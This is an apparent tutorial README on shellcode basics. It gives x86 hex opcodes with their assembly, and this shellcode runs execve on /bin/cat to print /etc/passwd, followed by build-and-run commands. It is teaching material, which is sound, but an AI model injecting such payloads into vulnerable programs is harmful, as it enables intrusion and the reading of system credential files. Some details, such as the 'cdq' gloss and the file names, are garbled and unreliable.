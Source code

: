 <h1>Shellcode Basic</h1>
<hr>
<p>Shellcode is machine code that when executed spawns a shell Not all "Shellcode" spawns a shell.Shellcode is a list of machine code instructions which are developed in a manner that allows it to be injected in a vulnerable application during its runtime.Injecting Shellcode in an application is done by exploiting various security holes in an application like buffer overflows, which are the most popular ones.You cannot access any values through static addresses because these addresses will not be static in the program that is executing your Shellcode. But this is not applicable to environment variable.While creating a shell code always use the smallest part of a register to avoid null string.A Shellcode must not contain null string since null string is a delimiter.Anything after null string is ignored during execution.That’s a brief about
Shellcode</p>
<b>Methods for generating Shellcode<b/>
<li>1. Write the shellcode  directly in hex code.</li>
<li>2.Write the assembly instructions, and then extract the opcodes to generate the shellcode.</li>
<li>3. Write in C, extract assembly instructions and then  the opcodes and finally generate the shellcode.</li>

<b>Hex-Opcodes             Assembly instruction</b>
<ul>
<li>"\x31\xc0"                                           xorl    %eax,%eax    </li>   
 <li> "\x99"                                            cdq== movl eax edx  </li>   
 <li> "\x52"                                              push edx                    </li>
 <li> "\x68\x2f\x63\x61\x74"                pushl 0x7461632f  </li>
 <li>"\x68\x2f\x62\x69\x6e"                pushl 0x6e69622f </li>
<li> "\x89\xe3"                                         mov ebx,esp   </li>
<li> "\x52"                                             push edx      </li>
<li>"\x68\x73\x73\x77\x64"                  pushl 0x64777373 </li>  
<li>"\x68\x2f\x2f\x70\x61"                pushl  0x61702f2f  </li>
<li>"\x68\x2f\x65\x74\x63"               pushl 0x6374652f </li>
<li>"\x89\xe1"                                       mov ecx,esp  </li>
<li>"\xb0\x0b"                                     mov  $0xb,%al            </li>                  
<li>"\x52"                                             push edx </li>
<li>"\x51"                                              push ecx </li>
<li>"\x53"                                             push ebx </li>
<li>"\x89\xe1"                                      mov ecx,esp   </li>
 <li>"\xcd\x80" ;                                    int 80h    </li>

<hr>
<p>In this repo/file there are three files:<br>
1.list.c ---->> which just calls execve to list all root files<br>
2. testshellcode.c ---->> Assembly language shellcode syntax embedded in c that is above Hex-opcodes <--> Assembly instructions.<br>
$ gcc -static -g -o testshellcode testshelcode.c <br>
$ ./testshellcod<br>
3.testshellcode.asm ---->> pure asm shellcode.<br>
$ nasm -f elf testshellcode.asm <br>
$ ld testshellcode.o -o testshellcode <br>
$ ./testshellcode<br>
</p>
These Three files will give you the same result.